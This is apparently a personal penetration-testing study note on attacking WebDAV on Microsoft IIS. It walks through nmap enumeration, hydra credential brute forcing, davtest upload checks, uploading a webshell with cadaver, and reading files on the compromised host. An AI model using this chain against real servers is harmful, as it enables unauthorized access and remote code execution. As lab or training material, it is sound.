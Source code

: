 Related to [[Metasploit]] and [[Windows Vulnerabilities]]

Microsfoft IIs is a propierary extensible web server software developed by microsoft, its used to host webs and webapps.

Typically configured on port 80/443

WebDAV (Web based Distributed Authoring and Versioning) is a set of extensions to the HTTP protocol which allows users to collaborateively edit and manage files on remote web servers

The first step of exploitation involves identifying whether webDAV has been configured to run on an IIS server.
We can perform burteforce in order to obtain credentials.
Once we have credentials we can upload a malicious .asp file for RCE or RSSH

We will use davtest and cadaver

We can start using:

``` bash
nmap -sV -p 80 --script=http-enum [IP]
```

When we find the webdav directory we can use hydra for a bruteforce:

``` bash
hydra -L [username_file] -P [password_file] [IP/domain] [protocol (http-get)] [directory (/webdav/)]
```

Once we have a login we can use davtest:

``` bash
davtest -url [url_with_webdavdir] -auth [username]:[password]
```

Now we know which types of files we can upload so now we can use cadaver:

``` bash
cadaver http://[IP/domain]/[webdavdir]
```

It will ask us for auth, then we have a sudo shell for the webdav dir, we can use this for a webshell

We can check all available webshells with 

``` bash
ls -al /usr/share/webshells/
```

Check the correct file extension we can upload, then with cadaver use:

``` bash
put [webshell_path]
```

Then we should open it from the browser, where it may be an RCE box or  reverse shell

To list all dirs from a command box:

``` bash
dir C:\
```

To read files:

``` bash
type C:\[path]
```